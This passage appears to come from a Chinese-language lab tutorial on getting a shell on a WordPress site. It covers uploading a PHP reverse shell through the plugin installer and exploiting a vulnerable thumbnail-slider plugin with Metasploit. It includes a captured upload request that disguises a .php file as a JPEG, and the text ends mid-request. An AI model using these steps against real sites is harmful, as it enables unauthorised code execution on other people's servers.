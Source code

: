 ### 方法 3、php 上传

直接在插件安装页面上传 php\_reverse\_shell.php 然后在/wp-content/includes/中访问  
上传过程中会发生报错 但不影响文件正常上传和访问

### 方法 4、安装脆弱插件

比如安装 wp\_responsive-thumbnail-slider 1.0  
[https://github.com/wp-plugins/wp-responsive-thumbnail-slider/blob/master/wp-responsive-images-thumbnail-slider.php](https://github.com/wp-plugins/wp-responsive-thumbnail-slider/blob/master/wp-responsive-images-thumbnail-slider.php)  
[![](assets/1706513536-e0ed778d34e0d28776ad915e04cc3a26.png)](https://cdn.nlark.com/yuque/0/2024/png/21402865/1705929451952-7393e2dd-f60b-473b-847e-6b5a2d54d6a1.png#averageHue=%23d9d9d9&clientId=uc39f9627-399e-4&from=paste&height=610&id=u354fe16b&originHeight=1220&originWidth=3094&originalType=binary&ratio=2&rotation=0&showTitle=false&size=217350&status=done&style=none&taskId=ue3b1c50c-2cc4-4347-b1f2-5a2f438adc7&title=&width=1547)  
安装并启用后使用 metasploit 的 multi/http/wp\_responsive\_thumbnail\_slider\_upload 模块进行攻击  
但在使用这个模块时发现攻击不成功 打开 msfconsole 的 httptrace 功能 检查一下交互流量  
shell 上传流量 响应状态码 200 检查后发现文件上传成功

```plain
POST /wp-admin/admin.php?page=responsive_thumbnail_slider_image_management/&action=addedit HTTP/1.1
Host: 127.0.0.1:81
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 14.0; rv:109.0) Gecko/20100101 Firefox/118.0
Cookie: wordpress_test_cookie=WP+Cookie+check; wordpress_6c4a121fd069bf4e2556e12b7efdd957=may%7C1706103384%7Cui79L7HaD6Tg7KSz4Klp4rrYC5nGMuTiSyjaHFqiA8A%7Cc6f4177388dc93f4dbf79d2e82f47164644463acddf110de7c2abfbe1c97e5d7; wordpress_6c4a121fd069bf4e2556e12b7efdd957=may%7C1706103384%7Cui79L7HaD6Tg7KSz4Klp4rrYC5nGMuTiSyjaHFqiA8A%7Cc6f4177388dc93f4dbf79d2e82f47164644463acddf110de7c2abfbe1c97e5d7; wordpress_logged_in_6c4a121fd069bf4e2556e12b7efdd957=may%7C1706103384%7Cui79L7HaD6Tg7KSz4Klp4rrYC5nGMuTiSyjaHFqiA8A%7C813c527b5d99bb083c2e43068cc63c66c41836fc5d3fc42883b8390f8da744a2;
Content-Type: multipart/form-data; boundary=---------------------------743289811480519521793446209521
Content-Length: 2471

-----------------------------743289811480519521793446209521
Content-Disposition: form-data; name="image_name"; filename="KSXrN.php"
Content-Type: image/jpeg

```